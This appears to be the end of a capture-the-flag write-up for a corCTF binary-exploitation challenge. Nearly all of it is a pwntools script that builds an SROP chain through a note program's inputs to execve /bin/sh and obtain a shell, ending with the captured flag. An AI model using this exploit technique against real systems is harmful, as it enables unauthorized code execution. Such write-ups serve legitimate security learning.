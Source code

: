 ```python
        cmd = p.recvline().decode()
        p.sendlineafter(b'solution: ',popen(cmd).read().encode())
    return p

p = start()

def forward():
    p.sendlineafter(b"> ",b"1")

def backward():
    p.sendlineafter(b"> ",b"2")

def delete():
    p.sendlineafter(b"> ",b"4")

def add_pad(rop: bytes):
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"title:",b"A"*0x10)
    p.sendlineafter(b"content:",b"B"*22+rop)

def add(rop: bytes):
    p.sendlineafter(b"> ",b"3")
    p.sendlineafter(b"title:",rop[:32])
    p.sendlineafter(b"content:",rop[32:])

for i in range(0xf6):
    backward()
delete()
syscall_ret = 0x801A468
sigret = 0x000000000801A4AC
frame1 = SigreturnFrame()
frame1.rax = 0
frame1.rdi = 0
frame1.rsi = 0x80000100
frame1.rdx = 0x8000
frame1.rsp = 0x80000100
frame1.rip = syscall_ret
payload = p64(sigret)+bytes(frame1)[1:]

add_pad(payload[:128-22])
forward()
add(payload[128-22:])
p.sendlineafter(b"> ",b"6")

frame2 = SigreturnFrame()
frame2.rax = 0x3b
frame2.rdi = 0x80000100+8+len(bytes(frame2))
frame2.rsi = 0
frame2.rdx = 0
frame2.rip = syscall_ret


pause()

p.sendline(p64(sigret)+bytes(frame2)+b"/bin/sh\0")

p.interactive()
```

![image](https://user-images.githubusercontent.com/31349426/257214034-9365165c-e521-4f60-a0d3-1fc3fe6b6872.png)

Flag: `corctf{sur3ly_th15_t1m3_17_w1ll_k1ll_c!!}`

